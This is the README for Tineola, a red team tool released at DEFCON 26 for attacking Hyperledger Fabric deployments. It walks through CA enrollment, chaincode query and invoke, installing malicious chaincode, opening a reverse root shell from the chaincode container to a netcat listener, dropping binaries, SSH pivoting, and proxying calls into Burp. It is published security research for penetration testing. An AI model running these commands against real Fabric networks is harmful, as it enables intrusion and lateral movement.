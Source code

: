 # Introducing Tineola

**Read the [Whitepaper](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf) and [DEFCON 26 Slides](/docs/Tineola-Slides-Defcon26.pdf).**

![Tineola Logo](docs/tineola_logo.png)

Tineola is a red team tool for interfacing with **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Koen Buyens, and Travis Biehn.


# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a `.tineola-rc` file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive command-line application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```

After these commands, the admin user has been enrolled into Tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and receiving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.

Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.

Both actions use the `channel-query-cc` Tineola command with or without the `--invoke` flag.

Invocation requires an orderer to be set.

Note: invoking requires the endorsement policy to be met, whereas querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the Tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.

Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the Tineola chaincode

Start a tcp listener on the Tineola machine (`10.0.0.5` in this example)
```
nc -l 31337
```

Use Tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container. This container is a bare Ubuntu image. Use `apt update` and `apt install ...` to download packages if the peer is internet connected. If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the Tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the Tineola machine is at `10.0.0.5`, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the Tineola machine.
An allowed ssh private key should be present at `~/tineola-ssh-key` for tineola to use.

Note: make sure to disallow this key after using Tineola.

Tineola makes no effort to encrypt or otherwise hide this key during or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated using `ssh-keygen` and installed to `~/.ssh/authorized` keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form `IP:PORT` and is `10.10.0.100:1234` in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to an application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability originating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (default: `localhost:8888`).
The format of HTTP requests should be:

``` json
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The `HLF-Invoke` header controls whether or not to send the request for ordering.
If `HLF-Invoke` is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

## License
This software is released by Synopsys under the [MIT license](LICENSE).
